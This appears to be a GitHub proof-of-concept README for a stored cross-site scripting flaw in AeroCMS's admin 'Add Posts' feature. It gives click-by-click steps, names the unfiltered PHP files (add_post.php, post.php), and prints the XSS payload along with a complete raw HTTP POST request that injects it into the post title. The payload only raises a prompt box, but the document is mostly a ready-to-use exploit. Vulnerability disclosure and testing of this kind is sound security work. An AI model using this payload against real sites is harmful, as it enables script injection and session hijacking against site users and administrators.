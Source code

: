 # AeroCMS-Stored_XSS-Add_Posts-Poc
* Login to admin panel -> `Posts` -> `Add Posts` -> `Post Title` -> inject payload `<img/src/onerror=prompt(10)>` -> The XSS will trigger when clicked `Edit Post` button
![image](https://user-images.githubusercontent.com/79050415/156887124-fb539ece-2ad1-4ebd-9ce9-6fcfd688b36e.png)
![image](https://user-images.githubusercontent.com/79050415/156879926-c7009ae0-54b5-4b5c-a49f-6c693ce8f2e5.png)
* `add_post.php`
![image](https://user-images.githubusercontent.com/79050415/156879687-273b903a-195c-4313-be7a-b4053ecae897.png)
When inserting into the database, the input is not filtered out of html characters
* `post.php`
![image](https://user-images.githubusercontent.com/79050415/156879786-ed53b64e-cf92-4160-aacd-32440b795d32.png)
Even when displaying, the entity cannot be properly encoded
-------------------------------------------------------------
# POC
```c POST http://localhost:8080/AeroCMS/admin/posts.php?source=edit_post&p_id=28 HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------85448121341942511952219062291
Content-Length: 1101
Origin: http://localhost:8080
Connection: keep-alive
Referer: http://localhost:8080/AeroCMS/admin/posts.php?source=edit_post&p_id=28
Cookie: Phpstorm-6b6ba5ee=79a50460-3b02-4cde-a5a4-ff6883c16a7b; PHPSESSID=ndh6ks953tmha1ps8cfp4bplf2
Upgrade-Insecure-Requests: 1

-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_title"

<img/src/onerror=prompt(10)>
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_category_id"

1
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_user"

admin
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_status"

published
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_tags"

1
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_content"

<p>111</p>
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="update_post"

Edit Post
-----------------------------85448121341942511952219062291--
```
POC VIDEO
https://drive.google.com/file/d/1kMGPBLKgefvKZj34QxDlPTxXdcT0kRR_/view?usp=sharing

